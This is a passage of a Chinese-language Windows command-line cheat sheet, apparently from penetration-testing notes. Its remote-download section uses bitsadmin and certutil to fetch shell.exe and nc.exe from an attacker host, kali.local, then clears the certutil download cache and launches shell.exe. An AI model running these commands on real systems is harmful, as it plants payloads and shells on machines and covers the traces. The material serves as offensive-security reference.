## 6 使用

### 6.1 查看帮助

```cmd
C:\Users\Administrator> [command] /?
```

### 6.2 历史命令

查看历史命令

```cmd
C:\Users\Administrator> doskey /history
```

### 6.3 远程下载

**bitsadmin**

使用 bitsadmin 下载文件

```cmd
C:\Users\Administrator> bitsadmin /transfer n http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

```cmd
C:\Users\Administrator> bitsadmin /rawreturn /transfer getfile http://kali.local/upload/shell.exe C:\Users\Administrator\shell.exe
```

**certutil**

使用 certutil 下载文件

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe C:\Users\Administrator\nc.exe
```

删除 certutil 下载记录

```cmd
C:\Users\Administrator> certutil -urlcache -split -f http://kali.local/upload/nc.exe delete
```

### 6.4 程序

运行程序

```cmd
C:\Users\Administrator> start shell.exe
```

### 6.5 修改编码

查看当前编码
